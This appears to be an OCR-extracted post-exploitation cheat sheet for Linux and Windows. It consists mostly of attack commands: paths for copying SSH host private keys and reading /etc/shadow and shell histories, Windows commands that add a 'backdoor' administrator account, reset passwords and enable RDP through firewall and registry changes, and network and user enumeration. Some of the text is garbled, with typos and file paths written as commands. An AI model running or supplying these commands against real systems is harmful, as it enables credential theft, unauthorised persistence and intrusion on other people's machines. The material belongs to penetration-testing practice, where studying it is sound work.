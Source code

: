 Copy ssh private kets:

> $ /etc/ssh/ssh\_host\_dsa\_key  
> $ /etc/ssh/ssh\_host\_key

Check interseting files

> $ /var/log  
> $ /var/log/secure  
> $ /etc/passwd  
> $ /etc/shadow  
> $ ~/.bash\_history  
> $ ~/.mysql\_history  
> Check log files of some of the services:  
> $ http  
> $ ftp  
> $ ssh  
> ▪ grep 'sshd' /var/log/auth.log

linux Post Exploitation:

> $ ifconfig

## POST EXPLOITATION WINDOWS

Backdoor User:

> $ net user backdoor backdoor@123 /add  
> $ net localgroup administrators backdoor /add  
> $ net localgroup "Remote Desktop Users" backdoor /add  
> $ net user admin newpassword  
> Enabling RDP  
> $ netsh firewall add portopening TCP 3389 "Open Port 3389" ENABLE ALL  
> $ netsh firewall set portopening TCP 3389 proxy ENABLE ALL  
> $ netsh firewall set service RemoteDesktop enable  
> $ reg add "HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 0 /f

Disable RDP

> $ reg add "HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 1 /f  
> $ netsh firewall delete portopening protocol=TCP port=3389

Check log files of some of the services:

> $ http  
> $ ftp  
> $ ssh

Windows Post Exploitation:

> $ Arp -a  
> $ netstat -ano  
> $ ipconfig /all  
> $ route print  
> $ schtasks /query /fo LIST /v  
> $ netsh firewall show config  
> $ Net group  
> $ Net localgroup  
> $ \(for /R ".\" %A in \(\*.txt\) do echo %~fA %~zA\) \| findstr /v "echo  
> $ Net share  
> $ Power shell to Enumerate users and computers using powershell
